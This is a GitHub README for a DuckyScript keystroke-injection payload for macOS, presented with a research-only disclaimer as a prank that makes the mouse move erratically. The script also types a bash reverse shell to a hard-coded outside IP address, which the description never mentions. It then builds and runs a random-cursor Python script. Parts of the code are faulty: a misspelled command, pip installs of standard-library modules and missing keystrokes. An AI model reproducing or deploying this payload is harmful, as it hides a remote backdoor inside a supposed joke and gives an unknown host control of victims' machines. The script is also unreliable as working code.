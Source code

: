 # Mouse-Chaos-Payload-MacOS
DuckyScript that causes the virtual mouse of a computer to go hay-wire on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
Author: samamsa7

## DuckyScript Code
<code><pre>
DELAY 75
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.7/87 0>&1
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
DELAY 50
STRING pip3 install pyautogui
DELAY 500
DELAY 50
STRING pip3 install time
DELAY 550
STRING pip3 install random
DEALY 550
STRING nano payload.py
DELAY 50
STRING import pyautogui
DELAY 10
ENTER
DELAY 10
STRING import random
DELAY 10
ENTER
DELAY 10
STRING import time
DELAY 10
ENTER
DELAY 10
STRING while True:
DELAY 10
ENTER
DELAY 10
STRING    x = random.randint(0, pyautogui.size().width)
DELAY 10
ENTER
DELAY 10
STRING    y = random.randint(0, pyautogui.size().height)
DELAY 10
ENTER
DELAY 10
STRING   pyautogui.moveTo(x, y)
DELAY 10
ENTER
DELAY 10
STRING    time.sleep(0.01)
DELAY 10
CTRL X
DELAY 10
STRING y
DELAY 10
ENTER
DELAY 10
STRING python3 payload.py
DELAY 10
ENTER
DELAY 10
COMMAND M
</code></pre>
